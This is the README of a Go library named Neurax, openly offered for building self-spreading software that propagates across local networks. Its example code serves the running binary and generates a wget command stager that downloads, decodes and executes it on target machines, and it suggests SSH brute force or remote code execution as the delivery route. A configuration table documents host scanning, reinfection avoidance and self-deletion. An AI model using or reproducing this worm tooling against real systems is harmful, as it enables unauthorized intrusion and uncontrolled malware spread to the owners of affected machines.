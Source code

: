 <h1 align="center"> Neurax </h1> <br>

<p align="center">
  <a>
    <img alt="Neurax" title="Neurax" src="neurax.png">
  </a>
</p>

<p align="center"> A library that aids in creation of self-spreading software</p>

## Requirements
`go get -u https://github.com/redcode-labs/Coldfire`

## Usage
With help of Neurax, Golang binaries can spread on local network without using any external servers.

Diverse config options and command stagers allow rapid propagation across various wireless environments.
### Example code

```go
package main
import "github.com/redcode-labs/Neurax"

func main(){

  //Specify serving port and stager to use
  NeuraxConfig.port = 5555
  NeuraxConfig.stager = "wget"

  //Start a server that exposes the current binary in the background
  go NeuraxServer()
  
  //Create a command stager that should be launched on target machine
  //It will download, decode and execute the binary
  cmd_stager := NeuraxStager()

  /* Now you have to somehow execute the command generated above.
     You can use SSH bruteforce, some RCE or whatever else you want ;> */

}
```

### List of config entries

<span style="color:#b45e02">Name</span> | <span style="color:#5f1e2d">Description</span> | <span style="color:#aa5502">Default value</span>
--- | --- | ---
NeuraxConfig.stager           | Name of the command stager to use | random, platform-compatible
NeuraxConfig.port             | Port to serve on | random from 2222 to 9999
NeuraxConfig.platform         | Platform to target | detected automatically
NeuraxConfig.path             | The path under which binary is saved on the host | random
NeuraxConfig.file_name        | Name under which downloaded binary should be served and then saved | random
NeuraxConfig.base64           | Encode the transferred binary in base64 | false
NeuraxConfig.prevent_reinfect | Use port-knocking to prevent multiple infections of the same host | true
NeuraxConfig.required_port    | NeuraxScan() treats host as active only when it has a specific port opened|none
NeuraxConfig.scan_passive     | NeuraxScan() detects hosts using passive ARP traffic monitoring | false
NeuraxConfig.scan_timeout     | NeuraxScan() sets this value as timeout for scanned port in each thread | 2 seconds
NeuraxConfig.read_arp_cache   | NeuraxScan() scans first the hosts found in local ARP cache. Works only with active scan | false
NeuraxConfig.cidr             | NeuraxScan() scans this CIDR | local IP + "\24"
NeuraxConfig.threads          | Number of threads to use for NeuraxScan() | 10
NeuraxConfig.full_range       | NeuraxScan() scans all ports of target host to determine if it is active | from 19 to 300
NeuraxConfig.verbose          | If true, all error messages are printed to STDIN | false
NeuraxConfig.remove           | When any errors occur, binary removes itself from the host | false

### Finding new targets
Function `NeuraxScan(c chan string)` enables detection of active hosts on local network.
It accepts a channel of type string as it's only argument and should be launched as a goroutine.
Any scanned host will be sent through that channel as soon as it was classified as active.
Host is treated as active when it has at least 1 open port + fullfils conditions specified within `NeuraxConfig`.

## Artwork credits

====> [Seto01](https://www.deviantart.com/seto01/art/New-disease-parasite-438032692) <====

## License
This software is under [MIT license](https://en.wikipedia.org/wiki/MIT_License)